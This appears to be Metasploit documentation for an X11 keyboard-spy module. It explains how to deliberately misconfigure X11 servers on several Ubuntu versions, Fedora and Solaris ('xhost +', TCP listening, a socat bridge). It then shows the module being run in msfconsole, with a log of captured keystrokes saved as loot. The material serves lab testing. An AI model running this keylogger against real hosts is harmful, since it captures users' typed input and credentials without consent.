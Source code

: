 ## Vulnerable Application

This module binds to an open X11 host to log keystrokes. The X11 service can accept
connections from any users when misconfigured with the command `xhost +`.
This module is a close copy of the old xspy c program which has been on Kali for a long time.
The module works by connecting to the X11 session, creating a background
window, binding a keyboard to it and creating a notification alert when a key
is pressed.

One of the major limitations of xspy, and thus this module, is that it polls
at a very fast rate, faster than a key being pressed is released (especially before
the repeat delay is hit). To combat printing multiple characters for a single key
press, repeat characters arent printed when typed in a very fast manor. This is also
an imperfect keylogger in that keystrokes arent stored and forwarded but status
displayed at poll time. Keys may be repeated or missing.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

### Ubuntu 22.04

#### Server

Getting X11 to listen on a TCP port is rather taxing, so we use socat to facilitate instead.

1. `sudo apt-get install ubuntu-desktop socat` # overkill but it gets everything we need
2. `sudo reboot` # prob a good idea since so much was installed
3. `sudo xhost +` # must be done through gui, not through SSH
4. `socat -d -d TCP-LISTEN:6000,fork,bind=<IP to listen to here> UNIX-CONNECT:/tmp/.X11-unix/X0`, you may need to use `X1` instead of `X0` depending on context.

## Verification Steps

1. Configure X11 to listen on port 6000, or use `socat` to open a socket.
1. Start msfconsole
1. Do: `use auxiliary/gather/x11_keyboard_spy`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should print keystrokes as they're pressed

## Options

### ListenerTimeout

How many seconds to keylog for.
If set to `0`, wait forever. Defaults to `600`, 10 minutes.

## Scenarios

### Ubuntu 22.04

```
[*] Processing xspy.rb for ERB directives.
resource (xspy.rb)> use auxiliary/gather/x11_keyboard_spy
resource (xspy.rb)> set verbose true
verbose => true
resource (xspy.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/x11_keyboard_spy) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:6000 - Establishing TCP Connection
[*] 127.0.0.1:6000 - [1/9] Establishing X11 connection
[-] 127.0.0.1:6000 - Connection packet malfored (size: 8192), attempting to get read more data
[+] 127.0.0.1:6000 - Successfully established X11 connection
[*] 127.0.0.1:6000 - Version: 11.0
[*] 127.0.0.1:6000 - Screen Resolution: 958x832
[*] 127.0.0.1:6000 - Resource ID: 33554432
[*] 127.0.0.1:6000 - Screen root: 1320
[*] 127.0.0.1:6000 - [2/9] Checking on BIG-REQUESTS extension
[+] 127.0.0.1:6000 -   Extension BIG-REQUESTS is present with id 134
[*] 127.0.0.1:6000 - [3/9] Enabling BIG-REQUESTS
[*] 127.0.0.1:6000 - [4/9] Creating new graphical context
[*] 127.0.0.1:6000 - [5/9] Checking on XKEYBOARD extension
[+] 127.0.0.1:6000 -   Extension XKEYBOARD is present with id 136
[*] 127.0.0.1:6000 - [6/9] Enabling XKEYBOARD
[*] 127.0.0.1:6000 - [7/9] Requesting XKEYBOARD map
[*] 127.0.0.1:6000 - [8/9] Enabling notification on keyboard and map
[*] 127.0.0.1:6000 - [9/9] Creating local keyboard map
[+] 127.0.0.1:6000 - All setup, watching for keystrokes
t
e
[space]
q
u
u
i
c
k
[space]
r
o
w
n
[space]
f
o
x
m
p
s
[space]
o
v
e
e
r
r
[space]
t
h
e
[space]
l
a
z
y
[space]
d
o
^C[*] 127.0.0.1:6000 - Closing X11 connection
[+] 127.0.0.1:6000 - Logged keys stored to: /root/.msf4/loot/20240226150211_default_127.0.0.1_x11.keylogger_839830.txt
[-] 127.0.0.1:6000 - Stopping running against current target...
[*] 127.0.0.1:6000 - Control-C again to force quit all targets.
[*] Auxiliary module execution completed
```

## Confirming

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

The output will be very similar to the metasploit module, but may differ. Compare the below two entries (spaces added to xspy for alignment):

```
xspy: the      quck         rown       foxumps      over         the       lazy      do
msf:  te[space]quuick[space]rown[space]foxmps[space]oveerr[space]the[space]lazy[space]do
```
